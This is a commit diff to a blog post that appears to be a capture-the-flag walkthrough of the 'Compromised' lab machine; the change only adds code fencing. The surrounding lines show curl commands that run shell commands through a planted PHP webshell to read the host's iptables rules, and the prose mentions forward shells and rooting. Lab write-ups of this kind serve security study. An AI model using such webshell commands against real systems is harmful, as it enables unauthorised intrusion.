

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-01-23-Compromised.md, in a window 1280 px wide and 900 px high, scrolled down 11552 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2021-01-23-Compromised.md

````diff
--- a/_posts/2021-01-23-Compromised.md
+++ b/_posts/2021-01-23-Compromised.md
@@ -438,7 +438,8 @@ root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --da
 
 I can pull the iptables rules:
 
-```root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
+```bash
+root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
 /etc/iptables/rules.v4
 root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=cat /etc/iptables/rules.v4'
 # Generated by iptables-save v1.6.1 on Jan 01 2021 02:27:01
@@ -457,6 +458,7 @@ root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode
 -A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
 COMMIT
 # Completed on Jan 01 2021 02:27:01
+```
 
 Inbound only established, 22, and 80 are allowed. Outbound only established and source port 22 and 80 (coming from SSH and HTTP). Anything I’d want to send outbound will be blocked. Still, this webshell is enough to run mysql commands through. Alteratively, I could write a forward shell (using Ippsec’s technique like I’ve shown several times, including Stratosphere - Ippsec will show this in his Compromised video), or just root from here (see Beyond Root).
 
````
